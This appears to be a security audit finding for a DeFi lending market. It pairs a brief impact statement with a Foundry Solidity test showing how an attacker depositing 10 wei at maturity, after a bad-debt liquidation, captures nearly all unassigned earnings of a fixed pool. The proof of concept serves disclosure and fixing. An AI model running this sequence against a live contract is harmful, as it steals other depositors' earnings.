 ### Impact

Attacker can claim a lot of unassigned earnings just by depositing at maturity enough (may be as small as 1 wei) to cover remaining `floatingBackupBorrowed`.

### PoC

Add the following POC to `Market.t.sol`, showing how a depositMaturity of 10 wei is enough to steal all unassigned maturities.
```solidity
function test_POC_ClearBadDebt_StealMaturities() external {
  uint256 maxVal = type(uint256).max;

  marketWETH.deposit(100000 ether, address(this));
  marketWETH.borrowAtMaturity(4 weeks, 10000e18, maxVal, address(this), address(this));
  marketWETH.repayAtMaturity(4 weeks, maxVal, maxVal, address(this));

  vm.startPrank(BOB);
  market.deposit(100 ether, BOB);
  auditor.enterMarket(market);
  marketWETH.borrowAtMaturity(4 weeks, 60e18, maxVal, BOB, BOB);
  vm.stopPrank();

  vm.startPrank(ALICE);
  weth.mint(ALICE, 1_000_000 ether);
  weth.approve(address(marketWETH), type(uint256).max);
  marketWETH.deposit(10, ALICE);
  marketWETH.borrowAtMaturity(4 weeks, 1, maxVal, ALICE, ALICE);
  vm.stopPrank();

  daiPriceFeed.setPrice(0.6e18);

  (uint256 coll, uint256 debt) = marketWETH.accountSnapshot(BOB);
  console.log(debt);
  (coll, debt) = market.accountSnapshot(BOB);
  console.log(coll);

  vm.startPrank(ALICE);
  marketWETH.liquidate(BOB, 100_000 ether, market);
  vm.stopPrank();

  (, , uint256 unassignedEarningsAfter, ) = marketWETH.fixedPools(4 weeks);
  assertEq(unassignedEarningsAfter, 45028532887479452);

  address attacker = makeAddr("attacker");
  vm.startPrank(attacker);
  deal(address(weth), attacker, 10);
  weth.approve(address(marketWETH), 10);
  marketWETH.depositAtMaturity(4 weeks, 10, 0, attacker);
  vm.stopPrank();

  (, , unassignedEarningsAfter, ) = marketWETH.fixedPools(4 weeks);
  assertEq(unassignedEarningsAfter, 0);

  // Attacker gets all the unassigned earnings by contributing only 10 
  (uint256 principal, uint256 fee) = marketWETH.fixedDepositPositions(4 weeks, attacker);
  assertEq(principal, 10);
  assertEq(fee, 40525679598731507);
}
```
